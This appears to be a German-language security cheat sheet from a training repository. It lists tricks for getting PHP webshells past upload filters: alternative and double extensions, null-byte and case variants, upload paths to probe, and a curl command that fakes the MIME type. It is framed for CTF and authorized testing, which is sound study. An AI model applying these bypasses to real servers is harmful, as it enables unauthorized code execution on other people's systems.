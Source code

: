 # 🐚 PHP Webshell Upload Tricks & Bypasses

## 📘 Kontext

In diesem Dokument findest du typische Dateinamen- und Erweiterungstricks, die bei **File Upload Attacks** verwendet werden, um **PHP-Webshells** trotz Dateifilter oder Upload-Validierung auf einen Webserver zu schleusen.

Solche Techniken sind besonders in **Capture The Flag (CTF)**-Challenges, **Bug Bounty**-Szenarien und **Red Team Assessments** relevant – etwa wenn Dateiuploads nur scheinbar eingeschränkt werden.

> ⚠️ Diese Datei dient ausschließlich zu **Lern- und Testzwecken** in legalen Übungsumgebungen (z. B. TryHackMe, HackTheBox).

---

## 🧨 Klassische Upload-Namen für Webshells

```text
cmdshell.phtml
cmdshell.pht
cmdshell.php3
cmdshell.php4
cmdshell.php5
cmdshell.php6
cmdshell.inc
```

---

## 🖼️ Tarnung als Bilddatei (Double Extensions)

**Ziel:** 
Umgehen von Filtermechanismen, die .php blockieren, aber .jpg oder .png erlauben.

```text
cmdshell.php.jpg
cmdshell.php%00.jpg   # Null-Byte-Trick (nur bei älteren Servern möglich)
cmdshell.php;.jpg     # selten erlaubt, nutzt inkorrekte .htaccess oder MIME-Fehler
cmdshell.jpg.php
```

---

## 🔡 Groß-/Kleinschreibung (Bypass durch Case-Insensitive Filter)

Manche Filter prüfen nur .php in Kleinbuchstaben:
```text
cmdshell.pHp
cmdshell.Php
cmdshell.PHP
```

---

## 🛠️ Weitere gebräuchliche alternative Erweiterungen
Diese Erweiterungen werden auf manchen falsch konfigurierten Servern ebenfalls als PHP interpretiert:

```text
.pht
.phtml
.php3
.php4
.php5
.inc
```
---

## 📂 Upload-Verzeichnisse testen
Wenn du eine Datei erfolgreich hochgeladen hast, teste verschiedene Uploadpfade:

```bash
http://[IP]/uploads/cmdshell.php
http://[IP]/admin/uploads/cmdshell.phtml
http://[IP]/images/cmdshell.php.jpg
```

---

## 📜 Nützliches Tool: Content-Disposition & MIME-Typ prüfen
Manche Filter prüfen den MIME-Typ. Tools wie Burp Suite oder curl helfen dir, die Content-Type-Header zu manipulieren:

```bash
curl -X POST -F "file=@cmdshell.php;type=image/jpeg" http://target/upload.php
```

---

**💡 Hinweis:** 
Wissen über Webshell-Uploadtricks hilft auch Defensive Security Teams, um Dateiuploads richtig abzusichern und forensisch zu analysieren.

---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** Juli 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!


---

## 📚 Siehe auch:

- [phpWebShellUsage.md](/vulnerabilities/sqlInjection/SQLInjectionToShell.md)
- [phpRCE_CheatSheet.md](/vulnerabilities/sqlInjection/cmdshellAndHowToUse/phpRCE_CheatSheet.md)
- [postExpoitationTools.md](/vulnerabilities/postExploitationTools.md)